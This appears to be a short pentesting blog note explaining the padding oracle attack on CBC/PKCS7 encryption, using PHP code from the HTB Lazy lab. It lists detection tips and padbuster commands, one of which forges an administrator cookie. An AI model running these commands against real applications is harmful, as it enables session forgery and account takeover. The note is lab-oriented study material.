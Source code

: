 ```yaml
---
layout: post
title: Padding Oracle Attack
tags: [web,crypto,foothold]
minute: 1
---
```

## Overview
CBD mode PKCS7 format uses padding to complete the block length when encrypting plaintext.

![](/assets/Padding Oracle Attack/padding.png)

Attacker can leverage this behaviour to get the plaintext by manipulating the ciphertext byte by byte in a trial and error fashion and observing whether the application will return error (invalid padding) or success (valid padding).

This kind of crypto may be safe but the real attack surface is on whether your app is returning error on invalid padding which will give an attacker chance to brute force the correct plaintext.

```php
// example file from HTB lazy
function decryptString($encryptedText, $passphrase) {
  $encrypted = base64_decode($encryptedText);
  $iv_size =  mcrypt_get_iv_size(MCRYPT_DES, MCRYPT_MODE_CBC);
  $iv = substr($encrypted,0,$iv_size);
  $dec = mcrypt_decrypt(MCRYPT_DES, $passphrase, substr($encrypted,$iv_size), MCRYPT_MODE_CBC, $iv);
  $str = pkcs5_unpad($dec);
  if ($str === false) {
    echo "Invalid padding"; // really? you want to be hacked?
    die();                  // maybe let's replace that or
  }                         // remove entirely?
  else {
    return $str;
  }
}
```

This is also a type of CCA or Chosen Ciphertext Attack.

## Details on ciphertext manipulation
Go to "The Theory" part of this [link](https://pentesterlab.com/exercises/padding_oracle/course).

## Detection
* Try manipulating cookie values. See if webapp will error response such as `invalid padding` or `500`,

## Exploitation
* Using padbuster

```bash
# installation
sudo apt-get install padbuster

# detection
padbuster http://10.10.10.10/index.php "RVJDQrwUdTRWJUVUeBKkEA==" 8 -encoding 0 -cookies "login=RVJDQrwUdTRWJUVUeBKkEA=="

# gets an admin cookie
padbuster http://10.10.10.10/index.php "RVJDQrwUdTRWJUVUeBKkEA==" 8 -encoding 0 -cookies "login=RVJDQrwUdTRWJUVUeBKkEA==" -plaintext "user=administrator"
```

* Using [bit flippingattack](https://0xdf.gitlab.io/2020/07/29/htb-lazy.html#path-2-bit-flip-attack). Here is another resource from [ippsec](https://www.youtube.com/watch?v=3VxZNflJqsw&t=460s) using Burp.

## References
* [Padding Oracle - HackTricks](https://book.hacktricks.xyz/cryptography/padding-oracle-priv#padding-oracle)
* [HTB Lazy](https://www.youtube.com/watch?v=3VxZNflJqsw)
* [Mathematical Explanation](https://www.youtube.com/watch?v=aH4DENMN_O4&t=873s)
* [The Padding Oracle Attack](https://robertheaton.com/2013/07/29/padding-oracle-attack/)
